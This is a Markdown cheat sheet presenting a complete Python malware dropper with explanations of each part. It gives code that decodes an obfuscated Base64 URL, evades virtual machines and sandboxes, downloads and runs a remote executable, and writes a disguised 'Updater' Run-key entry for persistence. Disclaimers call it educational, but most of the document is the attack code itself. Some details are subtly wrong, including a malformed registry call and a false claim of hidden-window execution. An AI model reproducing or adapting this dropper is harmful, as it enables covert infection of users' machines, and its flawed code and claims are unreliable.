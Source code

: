 # Advanced Dropper Malware Cheat Sheet (For Educational Purposes)

This cheat sheet covers an advanced **Python dropper** that stealthily downloads, executes a secondary payload, and automatically installs necessary Python modules. This enhanced version also includes features for persistence, anti-analysis checks, and stealthy execution. **For lab and research environments only; unauthorized use is illegal.**

---

## Dropper Overview

A **dropper** is a type of malware that “drops” or downloads additional malicious components onto a target system. The example here:
- **Downloads**: A secondary malicious payload from a remote server.
- **Checks for Dependencies**: Ensures that required modules are installed and installs them if missing.
- **Stealth Features**: Uses anti-sandboxing, obfuscation, and persistence techniques.

---

## Advanced Python Dropper Code

This dropper code uses Python, with automatic handling of dependencies to ensure it runs on the target machine even if modules are missing. It also has features to evade detection, maintain persistence, and execute the payload silently.

### Full Dropper Code

```python
import os
import sys
import subprocess
import tempfile
import base64
import time
import ctypes

# Function to check and install dependencies
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Automatically ensure required modules are installed
install_module("requests")
import requests

# Base64 encoded URL of the payload for obfuscation
PAYLOAD_URL = base64.b64decode("aHR0cDovL2V4YW1wbGUuY29tL21hbGljaW91c19wYXlsb2FkLmV4ZQ==").decode('utf-8')

# Function to check if running in a virtual environment
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Anti-sandboxing delay
time.sleep(10)

# Define the main dropper function
def dropper():
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)
    
    try:
        # Step 1: Create a temporary directory
        temp_dir = tempfile.gettempdir()
        payload_path = os.path.join(temp_dir, "malicious_payload.exe")
        
        # Step 2: Download the payload
        print("[*] Downloading payload...")
        response = requests.get(PAYLOAD_URL, stream=True)
        
        # Write payload to disk
        if response.status_code == 200:
            with open(payload_path, "wb") as payload_file:
                for chunk in response.iter_content(1024):
                    payload_file.write(chunk)
            print(f"[*] Payload downloaded to {payload_path}")
        else:
            print("[!] Failed to download payload")
            return
        
        # Step 3: Persistence - Add to startup registry
        try:
            key = r"Software\Microsoft\Windows\CurrentVersion\Run"
            value_name = "Updater"
            ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, payload_path)
            print("[*] Persistence achieved via registry key.")
        except Exception as e:
            print(f"[!] Failed to add persistence: {e}")
        
        # Step 4: Execute the payload in a hidden window
        print("[*] Executing payload...")
        subprocess.Popen(payload_path, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        print("[*] Payload executed.")
        
    except Exception as e:
        print(f"[!] Error occurred: {e}")

# Run the dropper function
if __name__ == "__main__":
    dropper()
```

---

## Explanation of Key Components

### 1. **Module Installation Function**

The `install_module()` function ensures that the required Python modules are installed on the target machine. If a module is missing, it automatically installs it using `pip`.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Obfuscated Payload URL**

The payload URL is Base64 encoded to evade static analysis tools. The script decodes it at runtime:

```python
PAYLOAD_URL = base64.b64decode("aHR0cDovL2V4YW1wbGUuY29tL21hbGljaW91c19wYXlsb2FkLmV4ZQ==").decode('utf-8')
```

### 3. **Virtual Environment Detection**

The `is_virtual_environment()` function checks for VMware or VirtualBox indicators in `systeminfo`, helping to avoid detection in sandboxed environments.

```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

### 4. **Anti-Sandboxing Delay**

The dropper pauses for 10 seconds using `time.sleep(10)` to evade sandbox detection.

```python
time.sleep(10)
```

### 5. **Payload Download**

The `requests` library downloads the payload in binary chunks, reducing memory usage.

```python
response = requests.get(PAYLOAD_URL, stream=True)
with open(payload_path, "wb") as payload_file:
    for chunk in response.iter_content(1024):
        payload_file.write(chunk)
```

### 6. **Persistence Mechanism**

The dropper adds a registry entry to the **Run** key so the payload executes every time the user logs in:

```python
key = r"Software\Microsoft\Windows\CurrentVersion\Run"
value_name = "Updater"
ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, payload_path)
```

### 7. **Silent Payload Execution**

Using `subprocess.Popen()` with `shell=True` ensures the payload is executed in a hidden process:

```python
subprocess.Popen(payload_path, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

---

## Security and Legal Disclaimer

This dropper script is for educational purposes only and must only be used in a controlled lab environment. Unauthorized use, distribution, or execution of malware is illegal and unethical.

--- 

**End of Cheat Sheet**
```
